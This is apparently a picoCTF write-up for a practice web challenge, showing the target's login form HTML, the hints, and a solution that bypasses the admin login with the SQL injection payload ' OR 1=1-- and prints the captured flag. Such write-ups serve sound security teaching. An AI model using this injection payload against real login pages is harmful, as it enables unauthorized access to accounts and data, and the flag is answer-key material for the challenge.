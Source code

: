 # Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or `http://jupiter.challenges.picoctf.org:33850`. Do you think you can log us in? Try to see if you can login!

# Hints

- There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
- Try to think about how the website verifies your login.

# Solution

- The website offered an admin login page:
   ```html
   <form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
   ```
- In the menu we will not find any useful information, let's move on to the Support section
   
- We will see small conversations between the admin and the customer, here we will find out they are talking about the SQL Error.

![alt text](/image/16.png)

- When we go to the Admin Login, we can try a basic SQL Injection to bypass the portal. Our injection is specifically having the username as ' OR 1=1-- and the password as whatever (`or vice versa`). The SQL query that checks the login is likely something like:
``` java
 SELECT username, password FROM users WHERE username='$username' AND password='$password';
 ```
When we put in our injection, the query becomes:
``` java
SELECT username, password FROM users WHERE username='' OR 1=1--' AND password='';
```
# Flag
`picoCTF{s0m3_SQL_f8adf3fb}`